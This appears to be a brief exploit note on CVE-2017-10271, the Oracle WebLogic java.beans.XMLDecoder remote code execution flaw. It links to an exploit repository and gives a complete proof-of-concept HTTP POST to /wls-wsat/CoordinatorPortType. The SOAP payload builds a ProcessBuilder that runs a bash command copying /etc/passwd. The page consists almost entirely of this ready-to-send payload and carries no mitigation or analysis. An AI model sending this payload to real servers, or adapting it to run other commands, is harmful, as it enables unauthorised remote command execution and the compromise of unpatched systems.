 ### CVE-2017-10271 - java.beans.XMLDecoder RCE

参考资料 

* [c0mmand3rOpSec/CVE-2017-10271 - weblogic exploit](https://github.com/c0mmand3rOpSec/CVE-2017-10271)

Poc

```
POST /wls-wsat/CoordinatorPortType

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"> 
	<soapenv:Header>
		<work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/"> 
			<java version="1.8.0_151" class="java.beans.XMLDecoder"> 
			<void class="java.lang.ProcessBuilder"> 
				<array class="java.lang.String" length="3">
				<void index = "0">
					<string>bash</string>
				</void>
				<void index = "1"> 
					<string>-c</string> 
				</void>
				<void index = "2">
					<string>cp /etc/passwd /tmp/hacked</string>
				</void>
			</array>
			<void method="start"/>
			</void>
			</java>
			</work:WorkContext> 
   </soapenv:Header> 
   <soapenv:Body/>
</soapenv:Envelope>
```